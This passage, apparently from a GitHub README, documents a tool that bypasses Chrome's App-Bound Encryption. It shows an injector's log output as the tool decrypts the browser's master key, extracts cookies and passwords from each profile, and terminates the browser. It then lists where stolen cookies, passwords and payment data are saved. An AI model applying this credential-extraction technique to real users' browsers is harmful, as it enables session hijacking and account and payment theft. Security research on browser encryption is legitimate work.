 ```bash
[#] Successfully created new thread for payload.
[+] New thread created for payload. Main thread remains suspended.
[#] Waiting for payload to connect to named pipe.
[#] Payload connected to named pipe.
[#] Sent message to pipe: VERBOSE_TRUE
[#] Sent message to pipe: C:\Users\ah\Documents\GitHub\Chrome-App-Bound-Encryption-Decryption\output
[*] Waiting for payload execution. (Pipe: \\.\pipe\f57cd2b6-1d97-4e3b-a4f1-72f94715cd5a)

[*] Decryption process started for Chrome
[+] COM library initialized (APARTMENTTHREADED).
[*] Reading Local State file: C:\Users\ah\AppData\Local\Google\Chrome\User Data\Local State
[*] Attempting to decrypt master key via Chrome's COM server...
[+] Decrypted AES Key: 3fa14dc988a34c85bdb872159b739634cb7e56f8e34449c1494297b9b629d094
[*] Discovering browser profiles in: C:\Users\ah\AppData\Local\Google\Chrome\User Data
[+] Found 2 profile(s).
[*] Processing profile: Default
     [*] 375 cookies extracted to C:\Users\ah\Documents\GitHub\Chrome-App-Bound-Encryption-Decryption\output\Chrome\Default\cookies.json
     [*] 1 passwords extracted to C:\Users\ah\Documents\GitHub\Chrome-App-Bound-Encryption-Decryption\output\Chrome\Default\passwords.json
[*] Processing profile: Profile 1
     [*] 111 cookies extracted to C:\Users\ah\Documents\GitHub\Chrome-App-Bound-Encryption-Decryption\output\Chrome\Profile 1\cookies.json
     [*] 1 passwords extracted to C:\Users\ah\Documents\GitHub\Chrome-App-Bound-Encryption-Decryption\output\Chrome\Profile 1\passwords.json
[*] All profiles processed. Decryption process finished.
[#] Payload completion signal received.

[+] Payload signaled completion or pipe interaction ended.
[#] Terminating browser PID=23924 via direct syscall.
[*] Chrome terminated by injector.
[#] Injector finished successfully.
```

## 📂 Data Extraction

Once decryption completes, data is saved to the specified output path (defaulting to `.\output\` if not specified via `--output-path`). Files are organized as follows:

**Base Path:** `YOUR_CHOSEN_PATH` (e.g., `.\output\` or the path you provide)
**Structure:** <Base Path>/<BrowserName>/<ProfileName>/<data_type>.txt

Example paths (assuming default output location):**

- 🍪 **Cookies (Chrome Default profile):** .\output\Chrome\Default\cookies.txt
- 🔑 **Passwords (Edge Profile 1):** .\output\Edge\Profile 1\passwords.txt
- 💳 **Payment Methods (Brave Default profile):** .\output\Brave\Default\payments.txt

### 🍪 Cookie Extraction

Each cookie file is a JSON array of objects:
